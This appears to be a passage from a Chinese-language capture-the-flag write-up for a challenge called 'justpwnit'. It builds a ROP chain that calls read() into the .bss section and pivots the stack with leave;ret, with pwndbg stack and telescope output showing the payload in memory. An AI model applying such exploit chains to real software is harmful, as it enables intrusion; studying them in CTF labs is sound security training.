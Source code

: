 ```python
bss_addr = 0x40C240 + 0x300    # 0x40C240 is the start address of .bss section
```

接着调用`sys_read()`来读入payload；

```python
# read(%rdi, %rsi, %rdx)
                                                    # leave = mov rbp,rsp; jmp rsp
payload1  = p64(0)                                  # mov rbp, rsp -> rsp point this code
                                                    # then pop rbp -> rsp-4 -> rsp point to next code
payload1 += p64(pop_rdx_ret) + p64(0x100)           # rdx --size
payload1 += p64(pop_rsi_ret) + p64(bss_addr)        # rsi --addr
payload1 += p64(pop_rdi_ret) + p64(0)               # rdi --fd
payload1 += p64(pop_rax_ret) + p64(0)               # rax --syscall number
payload1 += p64(syscall)                            # syscall
payload1 += p64(pop_rbp_ret) + p64(bss_addr)        # rbp->bss_addr
payload1 += p64(leave_ret)
```

继续调试，跟踪执行，在`call fgets_unlocked`后，要执行的payload被打入指针所指向的位置；

```
pwndbg> stack 20
00:0000│ rsp      0x7ffe517a3190 ◂— 0x0
...
06:0030│ rbx rbp  0x7ffe517a31c0 —▸ 0x7f68494ab050 ◂— 0x0
07:0038│          0x7ffe517a31c8 —▸ 0x40122f (justpwnit+33) ◂— add    dword ptr [rbp - 4], 1
08:0040│          0x7ffe517a31d0 ◂— 0xb4
09:0048│          0x7ffe517a31d8 ◂— 0x0
```

观察rbx所在的指针所指的内容；

```
pwndbg> telescope 0x7f68494ab050
00:0000│ rax  0x7f68494ab050 ◂— 0x0
01:0008│      0x7f68494ab058 —▸ 0x403d23 (wctomb+17) ◂— pop    rdx
02:0010│      0x7f68494ab060 ◂— 0x100
03:0018│      0x7f68494ab068 —▸ 0x4019a3 (mmap64+197) ◂— pop    rsi
04:0020│      0x7f68494ab070 —▸ 0x40c540 (buf+704) ◂— 0x0
05:0028│      0x7f68494ab078 —▸ 0x401b0d (fgets_unlocked+360) ◂— pop    rdi
06:0030│      0x7f68494ab080 ◂— 0x0
07:0038│      0x7f68494ab088 —▸ 0x401001 (_init+1) ◂— pop    rax
08:0040│      0x7f68494ab090 ◂— 0x0
09:0048│      0x7f68494ab098 —▸ 0x403888 (__unlock+59) ◂— syscall 
0a:0050│      0x7f68494ab0a0 —▸ 0x401123 (__do_global_dtors_aux+51) ◂— pop    rbp
0b:0058│      0x7f68494ab0a8 —▸ 0x40c540 (buf+704) ◂— 0x0
0c:0060│      0x7f68494ab0b0 —▸ 0x40123b (justpwnit+45) ◂— leave  
```

可以看到payload已经打入，现在观察程序是如何跳转执行这段payload的；

接下来程序执行的是这两条指令，进行跳转：

```
   0x4011f7 <set_element+190>    test   rax, rax
 ► 0x4011fa <set_element+193>  ✔ jne    set_element+205 <0x401206>

```
